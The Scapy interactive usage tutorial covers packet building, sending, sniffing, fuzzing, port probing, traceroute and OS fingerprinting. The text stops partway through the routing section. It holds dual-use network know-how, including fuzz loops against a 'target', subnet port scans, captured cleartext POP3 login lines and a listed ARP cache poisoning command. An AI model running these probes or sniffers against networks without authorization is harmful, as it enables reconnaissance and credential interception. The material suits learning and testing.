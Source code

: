 *****
Usage
*****

Starting Scapy
==============

Scapy's interactive shell is run in a terminal session. Root privileges are needed to
send the packets, so we're using ``sudo`` here::
  
    $ sudo scapy
    Welcome to Scapy (2.0.0.10 beta)
    >>> 

On Windows, please open a command prompt (``cmd.exe``) and make sure that you have 
administrator privileges::

    C:\scapy> python scapy.py
    Welcome to Scapy (1.2.0.2-win)
    >>> 

If you do not have all optional packages installed, Scapy will inform you that 
some features will not be available:: 

    INFO: Can't import python gnuplot wrapper . Won't be able to plot.
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

The basic features of sending and receiving packets should still work, though. 


Interactive tutorial
====================

This section will show you several of Scapy's features.
Just open a Scapy session as shown above and try the examples yourself.


First steps
-----------

Let's build a packet and play with it::

    >>> a=IP(ttl=10) 
    >>> a 
    < IP ttl=10 |> 
    >>> a.src 
    ’127.0.0.1’ 
    >>> a.dst="192.168.1.1" 
    >>> a 
    < IP ttl=10 dst=192.168.1.1 |> 
    >>> a.src 
    ’192.168.8.14’ 
    >>> del(a.ttl) 
    >>> a 
    < IP dst=192.168.1.1 |> 
    >>> a.ttl 
    64 

Stacking layers
---------------

The ``/`` operator has been used as a composition operator between two layers. When doing so, the lower layer can have one or more of its defaults fields overloaded according to the upper layer. (You still can give the value you want). A string can be used as a raw layer.

::

    >>> IP()
    <IP |>
    >>> IP()/TCP()
    <IP frag=0 proto=TCP |<TCP |>>
    >>> Ether()/IP()/TCP()
    <Ether type=0x800 |<IP frag=0 proto=TCP |<TCP |>>>
    >>> IP()/TCP()/"GET / HTTP/1.0\r\n\r\n"
    <IP frag=0 proto=TCP |<TCP |<Raw load='GET / HTTP/1.0\r\n\r\n' |>>>
    >>> Ether()/IP()/IP()/UDP()
    <Ether type=0x800 |<IP frag=0 proto=IP |<IP frag=0 proto=UDP |<UDP |>>>>
    >>> IP(proto=55)/TCP()
    <IP frag=0 proto=55 |<TCP |>>


.. image:: graphics/fieldsmanagement.*
   :scale: 90

Each packet can be build or dissected (note: in Python ``_`` (underscore) is the latest result)::

    >>> str(IP())
    'E\x00\x00\x14\x00\x01\x00\x00@\x00|\xe7\x7f\x00\x00\x01\x7f\x00\x00\x01'
    >>> IP(_)
    <IP version=4L ihl=5L tos=0x0 len=20 id=1 flags= frag=0L ttl=64 proto=IP
     chksum=0x7ce7 src=127.0.0.1 dst=127.0.0.1 |>
    >>>  a=Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"
    >>>  hexdump(a)   
    00 02 15 37 A2 44 00 AE F3 52 AA D1 08 00 45 00  ...7.D...R....E.
    00 43 00 01 00 00 40 06 78 3C C0 A8 05 15 42 23  .C....@.x<....B#
    FA 97 00 14 00 50 00 00 00 00 00 00 00 00 50 02  .....P........P.
    20 00 BB 39 00 00 47 45 54 20 2F 69 6E 64 65 78   ..9..GET /index
    2E 68 74 6D 6C 20 48 54 54 50 2F 31 2E 30 20 0A  .html HTTP/1.0 .
    0A                                               .
    >>> b=str(a)
    >>> b
    '\x00\x02\x157\xa2D\x00\xae\xf3R\xaa\xd1\x08\x00E\x00\x00C\x00\x01\x00\x00@\x06x<\xc0
     \xa8\x05\x15B#\xfa\x97\x00\x14\x00P\x00\x00\x00\x00\x00\x00\x00\x00P\x02 \x00
     \xbb9\x00\x00GET /index.html HTTP/1.0 \n\n'
    >>> c=Ether(b)
    >>> c
    <Ether dst=00:02:15:37:a2:44 src=00:ae:f3:52:aa:d1 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=67 id=1 flags= frag=0L ttl=64 proto=TCP chksum=0x783c
     src=192.168.5.21 dst=66.35.250.151 options='' |<TCP sport=20 dport=80 seq=0L
     ack=0L dataofs=5L reserved=0L flags=S window=8192 chksum=0xbb39 urgptr=0
     options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

We see that a dissected packet has all its fields filled. That's because I consider that each field has its value imposed by the original string. If this is too verbose, the method hide_defaults() will delete every field that has the same value as the default::

    >>> c.hide_defaults()
    >>> c
    <Ether dst=00:0f:66:56:fa:d2 src=00:ae:f3:52:aa:d1 type=0x800 |<IP ihl=5L len=67
     frag=0 proto=TCP chksum=0x783c src=192.168.5.21 dst=66.35.250.151 |<TCP dataofs=5L
     chksum=0xbb39 options=[] |<Raw load='GET /index.html HTTP/1.0 \n\n' |>>>>

Reading PCAP files
------------------

.. index::
   single: rdpcap()

You can read packets from a pcap file and write them to a pcap file. 

    >>> a=rdpcap("/spare/captures/isakmp.cap")
    >>> a
    <isakmp.cap: UDP:721 TCP:0 ICMP:0 Other:0>

Graphical dumps (PDF, PS)
-------------------------

.. index::
   single: pdfdump(), psdump()

If you have PyX installed, you can make a graphical PostScript/PDF dump of a packet or a list of packets (see the ugly PNG image below. PostScript/PDF are far better quality...)::

    >>> a[423].pdfdump(layer_shift=1)
    >>> a[423].psdump("/tmp/isakmp_pkt.eps",layer_shift=1)
    
.. image:: graphics/isakmp_dump.png



=======================   ====================================================
Command                   Effect
=======================   ====================================================
str(pkt)                  assemble the packet 
hexdump(pkt)              have an hexadecimal dump 
ls(pkt)                   have the list of fields values 
pkt.summary()             for a one-line summary 
pkt.show()                for a developped view of the packet 
pkt.show2()               same as show but on the assembled packet (checksum is calculated, for instance) 
pkt.sprintf()             fills a format string with fields values of the packet 
pkt.decode_payload_as()   changes the way the payload is decoded 
pkt.psdump()              draws a PostScript diagram with explained dissection 
pkt.pdfdump()             draws a PDF with explained dissection 
pkt.command()             return a Scapy command that can generate the packet 
=======================   ====================================================



Generating sets of packets
--------------------------

For the moment, we have only generated one packet. Let see how to specify sets of packets as easily. Each field of the whole packet (ever layers) can be a set. This implicidely define a set of packets, generated using a kind of cartesian product between all the fields.

::

    >>> a=IP(dst="www.slashdot.org/30")
    >>> a
    <IP dst= |>
    >>> [p for p in a]
    [<IP dst=66.35.250.148 |>, <IP dst=66.35.250.149 |>,
     <IP dst=66.35.250.150 |>, <IP dst=66.35.250.151 |>]
    >>> b=IP(ttl=[1,2,(5,9)])
    >>> b
    <IP ttl=[1, 2, (5, 9)] |>
    >>> [p for p in b]
    [<IP ttl=1 |>, <IP ttl=2 |>, <IP ttl=5 |>, <IP ttl=6 |>, 
     <IP ttl=7 |>, <IP ttl=8 |>, <IP ttl=9 |>]
    >>> c=TCP(dport=[80,443])
    >>> [p for p in a/c]
    [<IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.148 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.149 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.150 |<TCP dport=443 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=80 |>>,
     <IP frag=0 proto=TCP dst=66.35.250.151 |<TCP dport=443 |>>]

Some operations (like building the string from a packet) can't work on a set of packets. In these cases, if you forgot to unroll your set of packets, only the first element of the list you forgot to generate will be used to assemble the packet.

===============  ====================================================
Command          Effect
===============  ====================================================
summary()        displays a list of summaries of each packet 
nsummary()       same as previous, with the packet number 
conversations()  displays a graph of conversations 
show()           displays the prefered representation (usually nsummary()) 
filter()         returns a packet list filtered with a lambda function 
hexdump()        returns a hexdump of all packets 
hexraw()         returns a hexdump of the Raw layer of all packets 
padding()        returns a hexdump of packets with padding 
nzpadding()      returns a hexdump of packets with non-zero padding 
plot()           plots a lambda function applied to the packet list 
make table()     displays a table according to a lambda function 
===============  ====================================================



Sending packets
---------------

.. index::
   single: Sending packets, send
   
Now that we know how to manipulate packets. Let's see how to send them. The send() function will send packets at layer 3. That is to say it will handle routing and layer 2 for you. The sendp() function will work at layer 2. It's up to you to choose the right interface and the right link layer protocol.

::

    >>> send(IP(dst="1.2.3.4")/ICMP())
    .
    Sent 1 packets.
    >>> sendp(Ether()/IP(dst="1.2.3.4",ttl=(1,4)), iface="eth1")
    ....
    Sent 4 packets.
    >>> sendp("I'm travelling on Ethernet", iface="eth1", loop=1, inter=0.2)
    ................^C
    Sent 16 packets.
    >>> sendp(rdpcap("/tmp/pcapfile")) # tcpreplay
    ...........
    Sent 11 packets.


Fuzzing
-------

.. index::
   single: fuzz(), fuzzing

The function fuzz() is able to change any default value that is not to be calculated (like checksums) by an object whose value is random and whose type is adapted to the field. This enables to quicky built fuzzing templates and send them in loop. In the following example, the IP layer is normal, and the UDP and NTP layers are fuzzed. The UDP checksum will be correct, the UDP destination port will be overloaded by NTP to be 123 and the NTP version will be forced to be 4. All the other ports will be randomized::

    >>> send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)
    ................^C
    Sent 16 packets.


Send and receive packets (sr)
-----------------------------

.. index::
   single: sr()

Now, let's try to do some fun things. The sr() function is for sending packets and receiving answers. The function returns a couple of packet and answers, and the unanswered packets. The function sr1() is a variant that only return one packet that answered the packet (or the packet set) sent. The packets must be layer 3 packets (IP, ARP, etc.). The function srp() do the same for layer 2 packets (Ethernet, 802.3, etc.).

::

    >>> p=sr1(IP(dst="www.slashdot.org")/ICMP()/"XXXXXXXXXXX")
    Begin emission:
    ...Finished to send 1 packets.
    .*
    Received 5 packets, got 1 answers, remaining 0 packets
    >>> p
    <IP version=4L ihl=5L tos=0x0 len=39 id=15489 flags= frag=0L ttl=42 proto=ICMP
     chksum=0x51dd src=66.35.250.151 dst=192.168.5.21 options='' |<ICMP type=echo-reply
     code=0 chksum=0xee45 id=0x0 seq=0x0 |<Raw load='XXXXXXXXXXX'
     |<Padding load='\x00\x00\x00\x00' |>>>>
    >>> p.show()
    ---[ IP ]---
    version   = 4L
    ihl       = 5L
    tos       = 0x0
    len       = 39
    id        = 15489
    flags     = 
    frag      = 0L
    ttl       = 42
    proto     = ICMP
    chksum    = 0x51dd
    src       = 66.35.250.151
    dst       = 192.168.5.21
    options   = ''
    ---[ ICMP ]---
       type      = echo-reply
       code      = 0
       chksum    = 0xee45
       id        = 0x0
       seq       = 0x0
    ---[ Raw ]---
          load      = 'XXXXXXXXXXX'
    ---[ Padding ]---
             load      = '\x00\x00\x00\x00'


.. index::
   single: DNS, Etherleak

A DNS query (``rd`` = recursion desired). Note the non-null padding coming from my Linksys having the Etherleak flaw::

    >>> sr1(IP(dst="192.168.5.1")/UDP()/DNS(rd=1,qd=DNSQR(qname="www.slashdot.org")))
    Begin emission:
    Finished to send 1 packets.
    ..*
    Received 3 packets, got 1 answers, remaining 0 packets
    <IP version=4L ihl=5L tos=0x0 len=78 id=0 flags=DF frag=0L ttl=64 proto=UDP chksum=0xaf38
     src=192.168.5.1 dst=192.168.5.21 options='' |<UDP sport=53 dport=53 len=58 chksum=0xd55d
     |<DNS id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=1
     nscount=0 arcount=0 qd=<DNSQR qname='www.slashdot.org.' qtype=A qclass=IN |> 
     an=<DNSRR rrname='www.slashdot.org.' type=A rclass=IN ttl=3560L rdata='66.35.250.151' |>
     ns=0 ar=0 |<Padding load='\xc6\x94\xc7\xeb' |>>>>

The "send'n'receive" functions family is the heart of scapy. They return a couple of two lists. The first element is a list of couples (packet sent, answer), and the second element is the list of unanswered packets. These two elements are lists, but they are wrapped by an object to present them better, and to provide them with some methods that do most frequently needed actions::

    >>> sr(IP(dst="192.168.8.1")/TCP(dport=[21,22,23]))
    Received 6 packets, got 3 answers, remaining 0 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:0 ICMP:0 Other:0>)
    >>> ans,unans=_
    >>> ans.summary()
    IP / TCP 192.168.8.14:20 > 192.168.8.1:21 S ==> Ether / IP / TCP 192.168.8.1:21 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:22 S ==> Ether / IP / TCP 192.168.8.1:22 > 192.168.8.14:20 RA / Padding
    IP / TCP 192.168.8.14:20 > 192.168.8.1:23 S ==> Ether / IP / TCP 192.168.8.1:23 > 192.168.8.14:20 RA / Padding
    
If there is a limited rate of answers, you can specify a time interval to wait between two packets with the inter parameter. If some packets are lost or if specifying an interval is not enough, you can resend all the unanswered packets, either by calling the function again, directly with the unanswered list, or by specifying a retry parameter. If retry is 3, scapy will try to resend unanswered packets 3 times. If retry is -3, scapy will resend unanswered packets until no more answer is given for the same set of unanswered packets 3 times in a row. The timeout parameter specify the time to wait after the last packet has been sent::

    >>> sr(IP(dst="172.20.29.5/30")/TCP(dport=[21,22,23]),inter=0.5,retry=-2,timeout=1)
    Begin emission:
    Finished to send 12 packets.
    Begin emission:
    Finished to send 9 packets.
    Begin emission:
    Finished to send 9 packets.
    
    Received 100 packets, got 3 answers, remaining 9 packets
    (<Results: UDP:0 TCP:3 ICMP:0 Other:0>, <Unanswered: UDP:0 TCP:9 ICMP:0 Other:0>)

TCP traceroute
--------------

.. index::
   single: Traceroute

A TCP traceroute::

    >>> ans,unans=sr(IP(dst=target, ttl=(4,25),id=RandShort())/TCP(flags=0x2))
    *****.******.*.***..*.**Finished to send 22 packets.
    ***......
    Received 33 packets, got 21 answers, remaining 1 packets
    >>> for snd,rcv in ans:
    ...     print snd.ttl, rcv.src, isinstance(rcv.payload, TCP)
    ... 
    5 194.51.159.65 0
    6 194.51.159.49 0
    4 194.250.107.181 0
    7 193.251.126.34 0
    8 193.251.126.154 0
    9 193.251.241.89 0
    10 193.251.241.110 0
    11 193.251.241.173 0
    13 208.172.251.165 0
    12 193.251.241.173 0
    14 208.172.251.165 0
    15 206.24.226.99 0
    16 206.24.238.34 0
    17 173.109.66.90 0
    18 173.109.88.218 0
    19 173.29.39.101 1
    20 173.29.39.101 1
    21 173.29.39.101 1
    22 173.29.39.101 1
    23 173.29.39.101 1
    24 173.29.39.101 1

Note that the TCP traceroute and some other high-level functions are already coded::

    >>> lsc()
    sr               : Send and receive packets at layer 3
    sr1              : Send packets at layer 3 and return only the first answer
    srp              : Send and receive packets at layer 2
    srp1             : Send and receive packets at layer 2 and return only the first answer
    srloop           : Send a packet at layer 3 in loop and print the answer each time
    srploop          : Send a packet at layer 2 in loop and print the answer each time
    sniff            : Sniff packets
    p0f              : Passive OS fingerprinting: which OS emitted this TCP SYN ?
    arpcachepoison   : Poison target's cache with (your MAC,victim's IP) couple
    send             : Send packets at layer 3
    sendp            : Send packets at layer 2
    traceroute       : Instant TCP traceroute
    arping           : Send ARP who-has requests to determine which hosts are up
    ls               : List  available layers, or infos on a given layer
    lsc              : List user commands
    queso            : Queso OS fingerprinting
    nmap_fp          : nmap fingerprinting
    report_ports     : portscan a target and output a LaTeX table
    dyndns_add       : Send a DNS add message to a nameserver for "name" to have a new "rdata"
    dyndns_del       : Send a DNS delete message to a nameserver for "name"
    [...]

Configuring super sockets
-------------------------

.. index::
   single: super socket

The process of sending packets and receiving is quite complicated. As I wanted to use the PF_PACKET interface to go through netfilter, I also needed to implement an ARP stack and ARP cache, and a LL stack. Well it seems to work, on ethernet and PPP interfaces, but I don't guarantee anything. Anyway, the fact I used a kind of super-socket for that mean that you can switch your IO layer very easily, and use PF_INET/SOCK_RAW, or use PF_PACKET at level 2 (giving the LL header (ethernet,...) and giving yourself mac addresses, ...). I've just added a super socket which use libdnet and libpcap, so that it should be portable::

    >>> conf.L3socket=L3dnetSocket
    >>> conf.L3listen=L3pcapListenSocket

Sniffing
--------

.. index::
   single: sniff()

We can easily capture some packets or even clone tcpdump or tethereal. If no interface is given, sniffing will happen on every interfaces::

    >>>  sniff(filter="icmp and host 66.35.250.151", count=2)
    <Sniffed: UDP:0 TCP:0 ICMP:2 Other:0>
    >>>  a=_
    >>>  a.nsummary()
    0000 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    0001 Ether / IP / ICMP 192.168.5.21 echo-request 0 / Raw
    >>>  a[1]
    <Ether dst=00:ae:f3:52:aa:d1 src=00:02:15:37:a2:44 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=84 id=0 flags=DF frag=0L ttl=64 proto=ICMP chksum=0x3831
     src=192.168.5.21 dst=66.35.250.151 options='' |<ICMP type=echo-request code=0
     chksum=0x6571 id=0x8745 seq=0x0 |<Raw load='B\xf7g\xda\x00\x07um\x08\t\n\x0b
     \x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d
     \x1e\x1f !\x22#$%&\'()*+,-./01234567' |>>>>
    >>> sniff(iface="wifi0", prn=lambda x: x.summary())
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 5 00:0a:41:ee:a5:50 / 802.11 Probe Response / Info SSID / Info Rates / Info DSset / Info 133
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 4 ff:ff:ff:ff:ff:ff / 802.11 Probe Request / Info SSID / Info Rates
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 11 00:07:50:d6:44:3f / 802.11 Authentication
    802.11 Management 11 00:0a:41:ee:a5:50 / 802.11 Authentication
    802.11 Management 0 00:07:50:d6:44:3f / 802.11 Association Request / Info SSID / Info Rates / Info 133 / Info 149
    802.11 Management 1 00:0a:41:ee:a5:50 / 802.11 Association Response / Info Rates / Info 133 / Info 149
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 Management 8 ff:ff:ff:ff:ff:ff / 802.11 Beacon / Info SSID / Info Rates / Info DSset / Info TIM / Info 133
    802.11 / LLC / SNAP / ARP who has 172.20.70.172 says 172.20.70.171 / Padding
    802.11 / LLC / SNAP / ARP is at 00:0a:b7:4b:9c:dd says 172.20.70.172 / Padding
    802.11 / LLC / SNAP / IP / ICMP echo-request 0 / Raw
    802.11 / LLC / SNAP / IP / ICMP echo-reply 0 / Raw
    >>> sniff(iface="eth1", prn=lambda x: x.show())
    ---[ Ethernet ]---
    dst       = 00:ae:f3:52:aa:d1
    src       = 00:02:15:37:a2:44
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 0
       flags     = DF
       frag      = 0L
       ttl       = 64
       proto     = ICMP
       chksum    = 0x3831
       src       = 192.168.5.21
       dst       = 66.35.250.151
       options   = ''
    ---[ ICMP ]---
          type      = echo-request
          code      = 0
          chksum    = 0x89d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Ethernet ]---
    dst       = 00:02:15:37:a2:44
    src       = 00:ae:f3:52:aa:d1
    type      = 0x800
    ---[ IP ]---
       version   = 4L
       ihl       = 5L
       tos       = 0x0
       len       = 84
       id        = 2070
       flags     = 
       frag      = 0L
       ttl       = 42
       proto     = ICMP
       chksum    = 0x861b
       src       = 66.35.250.151
       dst       = 192.168.5.21
       options   = ''
    ---[ ICMP ]---
          type      = echo-reply
          code      = 0
          chksum    = 0x91d9
          id        = 0xc245
          seq       = 0x0
    ---[ Raw ]---
             load      = 'B\xf7i\xa9\x00\x04\x149\x08\t\n\x0b\x0c\r\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f !\x22#$%&\'()*+,-./01234567'
    ---[ Padding ]---
                load      = '\n_\x00\x0b'

We can sniff and do passive OS fingerprinting::

    >>> p
    <Ether dst=00:10:4b:b3:7d:4e src=00:40:33:96:7b:60 type=0x800 |<IP version=4L
     ihl=5L tos=0x0 len=60 id=61681 flags=DF frag=0L ttl=64 proto=TCP chksum=0xb85e
     src=192.168.8.10 dst=192.168.8.1 options='' |<TCP sport=46511 dport=80
     seq=2023566040L ack=0L dataofs=10L reserved=0L flags=SEC window=5840
     chksum=0x570c urgptr=0 options=[('Timestamp', (342940201L, 0L)), ('MSS', 1460),
     ('NOP', ()), ('SAckOK', ''), ('WScale', 0)] |>>>
    >>> p0f(p)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    >>> a=sniff(prn=prnp0f)
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (1.0, ['Linux 2.4.2 - 2.4.14 (1)'])
    (0.875, ['Linux 2.4.2 - 2.4.14 (1)', 'Linux 2.4.10 (1)', 'Windows 98 (?)'])
    (1.0, ['Windows 2000 (9)'])

The number before the OS guess is the accurracy of the guess.

Filters
-------

.. index::
   single: filter, sprintf()

Demo of both bpf filter and sprintf() method::

    >>> a=sniff(filter="tcp and ( port 25 or port 110 )",
     prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
    192.168.8.10:47226 -> 213.228.0.14:110   S : 
    213.228.0.14:110 -> 192.168.8.10:47226  SA : 
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK <13103.1048117923@pop2-1.free.fr>
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : USER toto
    
    213.228.0.14:110 -> 192.168.8.10:47226   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  PA : +OK 
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    192.168.8.10:47226 -> 213.228.0.14:110  PA : PASS tata
    
    213.228.0.14:110 -> 192.168.8.10:47226  PA : -ERR authorization failed
    
    192.168.8.10:47226 -> 213.228.0.14:110   A : 
    213.228.0.14:110 -> 192.168.8.10:47226  FA : 
    192.168.8.10:47226 -> 213.228.0.14:110  FA : 
    213.228.0.14:110 -> 192.168.8.10:47226   A : 

Send and receive in a loop 
--------------------------

.. index::
   single: srloop()

Here is an example of a (h)ping-like functionnality : you always send the same set of packets to see if something change::

    >>> srloop(IP(dst="www.target.com/30")/TCP())
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S
    RECV 1: Ether / IP / TCP 192.168.11.99:80 > 192.168.8.14:20 SA / Padding
    fail 3: IP / TCP 192.168.8.14:20 > 192.168.11.96:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.98:80 S
            IP / TCP 192.168.8.14:20 > 192.168.11.97:80 S

Making tables
-------------

.. index::
   single: tables, make_table()

Now we have a demonstration of the ``make_table()`` presentation function. It takes a list as parameter, and a function who returns a 3-uple. The first element is the value on the x axis from an element of the list, the second is about the y value and the third is the value that we want to see at coordinates (x,y). The result is a table. This function has 2 variants, ``make_lined_table()`` and ``make_tex_table()`` to copy/paste into your LaTeX pentest report. Those functions are available as methods of a result object :

Here we can see a multi-parallel traceroute (scapy already has a multi TCP traceroute function. See later)::

    >>> ans,unans=sr(IP(dst="www.test.fr/30", ttl=(1,6))/TCP())
    Received 49 packets, got 24 answers, remaining 0 packets
    >>> ans.make_table( lambda (s,r): (s.dst, s.ttl, r.src) )
      216.15.189.192  216.15.189.193  216.15.189.194  216.15.189.195  
    1 192.168.8.1     192.168.8.1     192.168.8.1     192.168.8.1     
    2 81.57.239.254   81.57.239.254   81.57.239.254   81.57.239.254   
    3 213.228.4.254   213.228.4.254   213.228.4.254   213.228.4.254   
    4 213.228.3.3     213.228.3.3     213.228.3.3     213.228.3.3     
    5 193.251.254.1   193.251.251.69  193.251.254.1   193.251.251.69  
    6 193.251.241.174 193.251.241.178 193.251.241.174 193.251.241.178 

Here is a more complex example to identify machines from their IPID field. We can see that 172.20.80.200:22 is answered by the same IP stack than 172.20.80.201 and that 172.20.80.197:25 is not answered by the sape IP stack than other ports on the same IP.

::

    >>> ans,unans=sr(IP(dst="172.20.80.192/28")/TCP(dport=[20,21,22,25,53,80]))
    Received 142 packets, got 25 answers, remaining 71 packets
    >>> ans.make_table(lambda (s,r): (s.dst, s.dport, r.sprintf("%IP.id%")))
       172.20.80.196 172.20.80.197 172.20.80.198 172.20.80.200 172.20.80.201 
    20 0             4203          7021          -             11562             
    21 0             4204          7022          -             11563             
    22 0             4205          7023          11561         11564             
    25 0             0             7024          -             11565             
    53 0             4207          7025          -             11566             
    80 0             4028          7026          -             11567             

It can help identify network topologies very easily when playing with TTL, displaying received TTL, etc.

Routing
-------

.. index::
   single: Routing, conf.route

Now scapy has its own routing table, so that you can have your packets routed diffrently than the system::

    >>> conf.route
    Network         Netmask         Gateway         Iface
    127.0.0.0       255.0.0.0       0.0.0.0         lo
    192.168.8.0     255.255.255.0   0.0.0.0         eth0
    0.0.0.0         0.0.0.0         192.168.8.1     eth0
    >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1")
    >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254")
    >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1")
    >>> conf.route
    Network         Netmask         Gateway         Iface
